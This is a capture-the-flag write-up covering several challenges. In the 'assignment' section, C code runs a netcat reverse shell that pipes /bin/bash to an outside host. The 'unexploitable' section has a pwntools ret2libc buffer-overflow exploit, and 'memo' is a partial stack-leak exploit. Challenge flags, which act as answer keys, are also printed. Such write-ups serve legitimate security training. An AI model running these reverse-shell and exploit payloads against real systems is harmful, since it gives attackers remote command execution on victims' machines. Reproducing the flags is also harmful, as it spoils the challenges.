 ## assignment

There are 2 points to attack, Makefile & C code. You can inject shell commands via them.

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
  system("nc delspon.com 9998 | /bin/bash | nc delspon.com 9999");
  return 0;
}
```

```
ICTF{Pr0f35s0rS_mAY6E_BeC0m3_@nGry}
```

## secureC

keyword: buffer overflow

```shell
➜  securec nc icewall-ctf.kr 33337
Enter the patched code in base64 format
I2luY2x1ZGUgPHN0ZGlvLmg+CgppbnQgbWFpbigpIHsKICBjaGFyIGJ1ZlsweDQwXTsKICBzY2FuZigiJTYzcyIsIGJ1Zik7CiAgcHV0cyhidWYpOwogIHJldHVybiAwOwp9
It's safe :)
ICTF{easy to prevent buffer overflow}
```

## unexploitable

keyword: stack buffer overflow 

```python
from pwn import *
p=remote('icewall-ctf.kr',33330)
system=0x8048390
binsh=0x804864c
p.sendline('a'*0x34+p32(system)+p32(0)+p32(binsh))
p.interactive()
```

```
ICTF{What...?How_did_you_exploit_it} 
```

## memo

keyword: stack buffer overflow

```
from pwn import *
p=remote('icewall-ctf.kr',33331)
p.sendline('1')
p.recv()
p.sendline('%d'%0x40)
p.recv()
p.sendline('a'*0x40)
p.recv()
p.sendline('2')
p.recv()
p.sendline('%d'%0x50)
p.recvuntil('a'*0x40)
p.recv(8)
leak=p.recv(8)
```